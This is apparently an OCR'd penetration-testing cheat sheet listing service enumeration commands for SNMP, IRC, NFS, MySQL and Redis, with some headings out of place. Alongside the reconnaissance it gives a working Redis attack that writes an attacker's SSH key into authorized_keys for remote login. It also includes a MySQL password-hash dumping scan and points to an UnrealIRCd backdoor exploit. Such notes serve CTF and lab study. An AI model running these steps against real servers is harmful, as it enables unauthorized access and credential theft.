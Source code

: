 ## **SNMP (161)** 
```
1. snmpwalk -c public -v1 <IP>
2. snmpcheck -t <IP> -c public
3. onesixtyone -c names -i hosts
4. nmap -sT -p 161 <IP> -oG snmp_results.txt
5. snmpenum -t <IP>
```
## **IRC (194,6667,6660-7000)**
```
1. nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000 irked.htb
2. https://github.com/Ranger11Danger/UnrealIRCd-
```

## **3.2.8.1-Backdoor (exploit code)**
```
1. NFS (2049)
2. showmount -e <IP>
3. mkdir /mnt/nfs
4. mount -t nfs <IP>:/nfspath-shown /mnt/nfs
5. Permission Denied ? (https://blog.christophetd.fr/write-up-vulnix/)
```

## **MYSQL (3306)**
* ` nmap -sV -Pn -vv <IP> -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122`

## **Redis (6379)**
In the output of config get * you could find the home of the redis user (usually /var/lib/redis or /home/redis/.ssh), and knowing this you know where you can write the authenticated_users file to access via ssh with the user redis. If you know the home of other valid user where you have writable permissions you can also abuse it: 

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file : (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit 
4. Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h <IP>

10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```
